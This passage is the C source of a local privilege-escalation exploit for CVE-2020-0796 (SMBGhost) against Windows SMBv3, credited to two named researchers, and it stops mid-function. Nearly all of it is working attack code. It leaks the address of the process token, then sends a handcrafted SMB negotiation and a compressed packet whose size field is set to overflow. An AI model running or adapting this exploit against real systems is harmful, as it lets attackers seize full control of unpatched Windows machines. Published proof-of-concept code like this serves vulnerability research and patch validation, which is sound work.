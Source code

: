 ```
/* * CVE-2020-0796 LPE *  * Daniel Garcia Gutierrez (@danigargu) - danigargu[at]gmail.com * Manuel Blanco Parajon (@dialluvioso) - dialluvioso[at]protonmail.com * Date: 03/29/2020 * **/#include <stdio.h>#include <stdint.h>#include <winsock2.h>#include <ws2tcpip.h>#include <windows.h>#include <TlHelp32.h>#include "ntos.h"#pragma comment(lib, "ws2_32.lib")ULONG64 get_handle_addr(HANDLE h) {	ULONG len = 20;	NTSTATUS status = (NTSTATUS)0xc0000004;	PSYSTEM_HANDLE_INFORMATION_EX pHandleInfo = NULL;	do {		len *= 2;		pHandleInfo = (PSYSTEM_HANDLE_INFORMATION_EX)GlobalAlloc(GMEM_ZEROINIT, len);		status = NtQuerySystemInformation(SystemExtendedHandleInformation, pHandleInfo, len, &len);	} while (status == (NTSTATUS)0xc0000004);	if (status != (NTSTATUS)0x0) {		printf("NtQuerySystemInformation() failed with error: %#x\n", status);		return 1;	}	DWORD mypid = GetProcessId(GetCurrentProcess());	ULONG64 ptrs[1000] = { 0 };	for (int i = 0; i < pHandleInfo->NumberOfHandles; i++) {		PVOID object = pHandleInfo->Handles[i].Object;		ULONG_PTR handle = pHandleInfo->Handles[i].HandleValue;		DWORD pid = (DWORD)pHandleInfo->Handles[i].UniqueProcessId;		if (pid != mypid)			continue;		if (handle == (ULONG_PTR)h)			return (ULONG64)object;	}	return -1;}ULONG64 get_process_token() {	HANDLE token;	HANDLE proc = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, GetCurrentProcessId());	if (proc == INVALID_HANDLE_VALUE)		return 0;	OpenProcessToken(proc, TOKEN_ADJUST_PRIVILEGES, &token);	ULONG64 ktoken = get_handle_addr(token);	return ktoken;}int error_exit(SOCKET sock, const char* msg) {	int err;	if (msg != NULL) {		printf("%s failed with error: %d\n", msg, WSAGetLastError());	}	if ((err = closesocket(sock)) == SOCKET_ERROR) {		printf("closesocket() failed with error: %d\n", WSAGetLastError());	}	WSACleanup();	return EXIT_FAILURE;}int send_negotiation(SOCKET sock) {	int err = 0;	char response[8] = { 0 };	const uint8_t buf[] = {		/* NetBIOS Wrapper */		0x00,                   /* session */		0x00, 0x00, 0xC4,       /* length */		/* SMB Header */		0xFE, 0x53, 0x4D, 0x42, /* protocol id */		0x40, 0x00,             /* structure size, must be 0x40 */		0x00, 0x00,             /* credit charge */		0x00, 0x00,             /* channel sequence */		0x00, 0x00,             /* channel reserved */		0x00, 0x00,             /* command */		0x00, 0x00,             /* credits requested */		0x00, 0x00, 0x00, 0x00, /* flags */		0x00, 0x00, 0x00, 0x00, /* chain offset */		0x00, 0x00, 0x00, 0x00, /* message id */		0x00, 0x00, 0x00, 0x00, 		0x00, 0x00, 0x00, 0x00, /* reserved */		0x00, 0x00, 0x00, 0x00, /* tree id */		0x00, 0x00, 0x00, 0x00, /* session id */		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00, /* signature */		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		/* SMB Negotiation Request */		0x24, 0x00,             /* structure size */		0x08, 0x00,             /* dialect count, 8 */		0x00, 0x00,             /* security mode */		0x00, 0x00,             /* reserved */		0x7F, 0x00, 0x00, 0x00, /* capabilities */		0x01, 0x02, 0xAB, 0xCD, /* guid */		0x01, 0x02, 0xAB, 0xCD,		0x01, 0x02, 0xAB, 0xCD,		0x01, 0x02, 0xAB, 0xCD,		0x78, 0x00,             /* negotiate context */		0x00, 0x00,             /* additional padding */		0x02, 0x00,             /* negotiate context count */		0x00, 0x00,             /* reserved 2 */		0x02, 0x02,             /* dialects, SMB 2.0.2 */		0x10, 0x02,             /* SMB 2.1 */		0x22, 0x02,             /* SMB 2.2.2 */		0x24, 0x02,             /* SMB 2.2.3 */		0x00, 0x03,             /* SMB 3.0 */		0x02, 0x03,             /* SMB 3.0.2 */		0x10, 0x03,             /* SMB 3.0.1 */		0x11, 0x03,             /* SMB 3.1.1 */		0x00, 0x00, 0x00, 0x00, /* padding */		/* Preauth context */		0x01, 0x00,             /* type */		0x26, 0x00,             /* length */		0x00, 0x00, 0x00, 0x00, /* reserved */		0x01, 0x00,             /* hash algorithm count */		0x20, 0x00,             /* salt length */		0x01, 0x00,             /* hash algorith, SHA512 */		0x00, 0x00, 0x00, 0x00, /* salt */		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00, 0x00, 0x00,		0x00, 0x00,             /* pad */		/* Compression context */		0x03, 0x00,             /* type */		0x0E, 0x00,             /* length */		0x00, 0x00, 0x00, 0x00, /* reserved */		0x02, 0x00,             /* compression algorithm count */		0x00, 0x00,             /* padding */		0x01, 0x00, 0x00, 0x00, /* flags */		0x02, 0x00,             /* LZ77 */		0x03, 0x00,             /* LZ77+Huffman */		0x00, 0x00, 0x00, 0x00, /* padding */		0x00, 0x00, 0x00, 0x00	};		if ((err = send(sock, (const char *)buf, sizeof(buf), 0)) != SOCKET_ERROR) {		recv(sock, response, sizeof(response), 0); 	}	return err;}int send_compressed(SOCKET sock, unsigned char* buffer, ULONG len) {	int err = 0;	char response[8] = { 0 };	const uint8_t buf[] = {		/* NetBIOS Wrapper */		0x00,		0x00, 0x00, 0x33,		/* SMB Header */		0xFC, 0x53, 0x4D, 0x42, /* protocol id */		0xFF, 0xFF, 0xFF, 0xFF, /* original decompressed size, trigger arithmetic overflow */		0x02, 0x00,             /* compression algorithm, LZ77 */		0x00, 0x00,             /* flags */		0x10, 0x00, 0x00, 0x00, /* offset */	};	uint8_t* packet = (uint8_t*) malloc(sizeof(buf) + 0x10 + len);	if (packet == NULL) {		printf("Couldn't allocate memory with malloc()\n");		return error_exit(sock, NULL);	}	memcpy(packet, buf, sizeof(buf));	*(uint64_t*)(packet + sizeof(buf)) = 0x1FF2FFFFBC;	*(uint64_t*)(packet + sizeof(buf) + 0x8) = 0x1FF2FFFFBC;	memcpy(packet + sizeof(buf) + 0x10, buffer, len);	if ((err = send(
```